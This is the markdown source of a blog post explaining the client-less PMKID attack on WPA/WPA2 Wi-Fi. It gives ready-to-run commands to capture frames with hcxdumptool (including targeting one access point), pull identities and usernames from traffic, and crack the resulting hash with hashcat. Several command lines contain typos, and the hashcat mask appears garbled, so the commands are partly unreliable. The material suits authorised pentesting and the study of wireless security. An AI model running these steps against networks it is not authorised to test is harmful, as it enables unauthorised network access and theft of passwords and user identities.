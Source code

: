 ```yaml
---
layout: post
title:  "Cracking WPA1/2/Enterprise with HCXTools"
date:   2018-08-08 13:49:33 +0000
tags: [WiFi, pentest, redteam, blueteam]
---
```

![](/assets/WiFi.png)

A new technique to crack WPA PSK (Pre-Shared Key) passwords.

In order to make use of this new attack you need the following tools:
* [hcxdumptool v4.2.0 or higher](https://github.com/ZerBea/hcxdumptool)
* [hcxtools v4.2.0 or higher](https://github.com/ZerBea/hcxtools)
* [hashcat v4.2.0 or higher](https://github.com/hashcat/hashcat)

This attack was discovered accidentally while looking for new ways to attack the new WPA3 security standard. However, WPA3 is not vulnerable to this specific attack! WPA3 will be much harder to attack because of its modern key establishment protocol called “Simultaneous Authentication of Equals” (SAE).

The main difference from existing attacks is that in this attack, capture of a full EAPOL 4-way or half EAPOL 2-way handshake is not required. The new attack is performed on the RSN IE (Robust Security Network Information Element) of a single EAPOL frame.

Currently there is no list of vendors or routers that are vulnerable to this attack. But theoretically it should work against all 802.11i/p/q/r networks with roaming functions enabled (most modern routers).

![](/assets/wifi_hcx_frame.png)

The main advantages of this attack are as follow:
* No more regular users required — because the attacker directly communicates with the AP (aka “client-less” attack)
* No more waiting for a EAPOL handshake between the regular user and the AP
* No more eventual retransmissions of EAPOL frames (which can lead to uncrackable results)
* No more eventual invalid passwords sent by the regular user
* No more lost EAPOL frames when the regular user or the AP is too far away from the attacker
* No more fixing of nonce and replaycounter values required (resulting in slightly higher speeds)
* No more special output format (pcap, hccapx, etc.) — final data will appear as regular hex encoded string

## Usage
### General WPA/WPA2 Exploit
Dump the packet
```
./hcdumptool -o test.pcapng -i <interface> --enable_status 1
```
Target specific AP:
```
echo 112233445566 > /tmp/filter.txt
./hcdumptool -o test.pcapng -i <interface> --filtermode 2 --filerlist /tmp/filter.txt --enable_status 1
```
### Cracking Enterprise Mode
**Note**: While not required it is recommended to use options -E -I and -U with hcxpcaptool. We can use these files to feed hashcat. They typically produce good results.
* -E retrieve possible passwords from WiFi-traffic (additional, this list will include ESSIDs)
* -I retrieve identities from WiFi-traffic
* -U retrieve usernames from WiFi-traffic
```
$ ./hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng
```
### Hash Cracking
Extract the hash
```
./hcxpcaptool -z test.16800 test.pcapng
```
Crack with hashcat
```
./hashcat -m 16800 test.16800 -a3 -w 3 '?|?|?|?|?|?|t!'
```

## References
* https://hashcat.net/forum/thread-7717.html
